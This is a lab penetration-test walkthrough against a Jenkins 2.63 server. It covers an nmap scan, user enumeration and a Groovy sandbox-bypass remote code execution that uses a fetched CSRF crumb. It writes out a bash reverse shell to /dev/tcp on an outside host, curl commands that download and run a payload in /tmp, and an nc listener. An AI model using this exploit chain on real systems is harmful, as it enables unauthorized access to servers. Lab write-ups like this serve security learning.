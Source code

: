## NMAP
```
 nmap -sCV -p- -A -T4 10.10.110.102
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-13 21:18 PDT
Nmap scan report for 10.10.110.102
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Dashboard [Jenkins]
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 235.84 seconds


```

Jenkins site on port 8080
```
Jenkins ver. 2.63
```

Testing for RCE 
```
curl -k -4 -s http://10.10.110.102:8080/securityRealm/user/admin/search/index\?q\=a
```
```
<!DOCTYPE html><html><head resURL="/static/e31c8471" data-rooturl="" data-resurl="/static/e31c8471">
    

    <title>Search for 'a' [Jenkins]</title><link rel="stylesheet" href="/static/e31c8471/css/layout-common.css" type="text/css" /><link rel="stylesheet" href="/static/e31c8471/css/style.css" type="text/css" /><link rel="stylesheet" href="/static/e31c8471/css/color.css" type="text/css" /><link rel="stylesheet" href="/static/e31c8471/css/responsive-grid.css" type="text/css" /><link rel="shortcut icon" href="/static/e31c8471/favicon.ico" type="image/vnd.microsoft.icon" /><link color="black" rel="mask-icon" href="/images/mask-icon.svg" /><script>var isRunAsTest=false; var rootURL=""; var resURL="/static/e31c8471";</script><script src="/static/e31c8471/scripts/prototype.js" type="text/javascript"></script><script src="/static/e31c8471/scripts/behavior.js" type="text/javascript"></script><script src='/adjuncts/e31c8471/org/kohsuke/stapler/bind.js' type='text/javascript'></script><script src="/static/e31c8471/scripts/yui/yahoo/yahoo-min.js"></script><script src="/static/e31c8471/scripts/yui/dom/dom-min.js"></script><script src="/static/e31c8471/scripts/yui/event/event-min.js"></script><script src="/static/e31c8471/scripts/yui/animation/animation-min.js"></script><script src="/static/e31c8471/scripts/yui/dragdrop/dragdrop-min.js"></script><script src="/static/e31c8471/scripts/yui/container/container-min.js"></script><script src="/static/e31c8471/scripts/yui/connection/connection-min.js"></script><script src="/static/e31c8471/scripts/yui/datasource/datasource-min.js"></script><script src="/static/e31c8471/scripts/yui/autocomplete/autocomplete-min.js"></script><script src="/static/e31c8471/scripts/yui/menu/menu-min.js"></script><script src="/static/e31c8471/scripts/yui/element/element-min.js"></script><script src="/static/e31c8471/scripts/yui/button/button-min.js"></script><script src="/static/e31c8471/scripts/yui/storage/storage-min.js"></script><script src="/static/e31c8471/scripts/hudson-behavior.js" type="text/javascript"></script><script src="/static/e31c8471/scripts/sortable.js" type="text/javascript"></script><script>crumb.init("Jenkins-Crumb", "fd780767e1572b2d556aa1d50af5975a");</script><link rel="stylesheet" href="/static/e31c8471/scripts/yui/container/assets/container.css" type="text/css" /><link rel="stylesheet" href="/static/e31c8471/scripts/yui/assets/skins/sam/skin.css" type="text/css" /><link rel="stylesheet" href="/static/e31c8471/scripts/yui/container/assets/skins/sam/container.css" type="text/css" /><link rel="stylesheet" href="/static/e31c8471/scripts/yui/button/assets/skins/sam/button.css" type="text/css" /><link rel="stylesheet" href="/static/e31c8471/scripts/yui/menu/assets/skins/sam/menu.css" type="text/css" /><link rel="search" href="/opensearch.xml" type="application/opensearchdescription+xml" title="Jenkins" /><meta name="ROBOTS" content="INDEX,NOFOLLOW" /><meta name="viewport" content="width=device-width, initial-scale=1" /><script src="/static/e31c8471/jsbundles/page-init.js" type="text/javascript"></script></head><body data-model-type="hudson.search.Search" id="jenkins" class="yui-skin-sam two-column jenkins-2.63" data-version="2.63"><a href="#skip2content" class="skiplink">Skip to content</a><div id="page-head"><div id="header"><div class="logo"><a id="jenkins-home-link" href="/"><img src="/static/e31c8471/images/headshot.png" alt="title" id="jenkins-head-icon" /><img src="/static/e31c8471/images/title.png" alt="title" width="139" id="jenkins-name-icon" height="34" /></a></div><div class="login"> <a href="/login?from=%2FsecurityRealm%2Fuser%2Fadmin%2Fsearch%2Findex"><b>log in</b></a></div><div class="searchbox hidden-xs"><form method="get" name="search" action="/securityRealm/user/admin/search/" style="position:relative;" class="no-json"><div id="search-box-minWidth"></div><div id="search-box-sizer"></div><div id="searchform"><input name="q" placeholder="search" id="search-box" class="has-default-text" value="a" /> <a href="https://jenkins.io/redirect/search-box"><img src="/static/e31c8471/images/16x16/help.png" style="width: 16px; height: 16px; " class="icon-help icon-sm" /></a><div id="search-box-completion"></div><script>createSearchBox("/securityRealm/user/admin/search/");</script></div></form></div></div><div id="breadcrumbBar"><tr id="top-nav"><td id="left-top-nav" colspan="2"><link rel='stylesheet' href='/adjuncts/e31c8471/lib/layout/breadcrumbs.css' type='text/css' /><script src='/adjuncts/e31c8471/lib/layout/breadcrumbs.js' type='text/javascript'></script><div class="top-sticker noedge"><div class="top-sticker-inner"><div id="right-top-nav"><div id="right-top-nav"><div class="smallfont"><a href="?auto_refresh=true">ENABLE AUTO REFRESH</a></div></div></div><ul id="breadcrumbs"><li class="item"><a href="/" class="model-link inside">Jenkins</a></li><li href="/" class="children"></li><li class="item"><a href="/securityRealm/" class=" inside">Jenkins’ own user database</a></li><li class="separator"></li><li class="item"><a href="/securityRealm/user/admin/" class="model-link inside">admin</a></li><li class="separator"></li></ul><div id="breadcrumb-menu-target"></div></div></div></td></tr></div></div><div id="page-body" class="clear"><div id="side-panel"></div><div id="main-panel"><a name="skip2content"></a><h1>Search for 'a'</h1><ol><li id="item_admin"><a href="?q=admin">admin</a></li><li id="item_All"><a href="?q=All">All</a></li><li id="item_master"><a href="?q=master">master</a></li></ol></div></div><footer><div class="container-fluid"><div class="row"><div class="col-md-6" id="footer"></div><div class="col-md-18"><span class="page_generated">Page generated: Apr 14, 2023 4:22:22 AM UTC</span><span class="jenkins_ver"><a href="https://jenkins.io/">Jenkins ver. 2.63</a></span></div></div></div></footer></body></html>% 
    
   ```
   Because it returned data its vulnerable
   
   ```
   http://10.10.110.102:8080/securityRealm/user/admin/search/index?q=a
   ```
   Lists all users
   ```
   Search for 'a'

    admin
    All
    master
    ```
    Not sure if this is useful
    
    Looking into things its vulnerable to groovy plugin exploits
    
    https://github.com/gquere/pwn_jenkins
    
    This payload should work
    ```
    
Create the shell
```
/bin/bash -i >& /dev/tcp/10.10.14.21/4444 0>&1
```
curl http://10.10.110.102:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/ -d 'sandbox=True&value=public class x { public x (){ "curl 10.10.14.21/shell -o /tmp/shell".execute() } }'
```

```
<html>
<head>
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>Error 403 No valid crumb was included in the request</title>
</head>
<body><h2>HTTP ERROR 403</h2>
<p>Problem accessing /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.. Reason:
<pre>    No valid crumb was included in the request</pre></p><hr><a href="http://eclipse.org/jetty">Powered by Jetty:// 9.4.z-SNAPSHOT</a><hr/>

</body>
</html>
curl: (6) Could not resolve host: SecureGroovyScript
```
We need a crumb

```
curl http://10.10.110.102:8080/crumbIssuer/api/json
```
{"_class":"hudson.security.csrf.DefaultCrumbIssuer","crumb":"fd780767e1572b2d556aa1d50af5975a","crumbRequestField":"Jenkins-Crumb"}%  
```
```
curl -H 'Jenkins-Crumb:fd780767e1572b2d556aa1d50af5975a' http://10.10.110.102:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/ -d 'sandbox=True&value=public class x { public x (){ "curl 10.10.14.21/shell -o /tmp/shell".execute() } }'
```
```
curl -H 'Jenkins-Crumb:fd780767e1572b2d556aa1d50af5975a' http://10.10.110.102:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/ -d 'sandbox=True&value=public class x { public x (){ "/bin/bash /tmp/shell".execute() } }'
```
Catch the RS
```
 nc -lvp 4444
listening on [any] 4444 ...
10.10.110.102: inverse host lookup failed: Unknown host
connect to [10.10.14.21] from (UNKNOWN) [10.10.110.102] 56438
bash: cannot set terminal process group (997): Inappropriate ioctl for device
bash: no job control in this shell
lucian@JENKINS01-Persephone:~$ 
```

